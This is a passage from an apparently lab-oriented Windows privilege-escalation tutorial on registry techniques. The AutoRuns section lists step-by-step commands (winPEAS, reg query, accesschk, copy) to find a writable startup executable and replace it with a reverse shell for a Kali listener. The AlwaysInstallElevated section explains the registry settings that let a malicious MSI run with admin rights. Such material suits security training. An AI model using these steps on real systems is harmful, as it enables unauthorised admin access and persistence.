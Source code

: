 ## <mark style="color:red;">Registry Exploits</mark> <a href="#registry" id="registry"></a>

### <mark style="color:blue;">AutoRuns</mark>

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

1. Use winPEAS to check for writable AutoRun executables:

```
> .\winPEASany.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

3. and then use accesschk.exe to verify the permissions on each one:

```
> .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

4. The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```
> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

5. Copy our reverse shell executable to overwrite the AutoRun executable:

```
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
```

6. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

### <mark style="color:blue;">AlwaysInstallElevated</mark>

MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.

The “**AlwaysInstallElevated**” value must be set to 1 for both&#x20;

1. the **local machine**: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer&#x20;
2. and the **current user**: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer&#x20;

If either of these are missing or disabled, the exploit will not work.
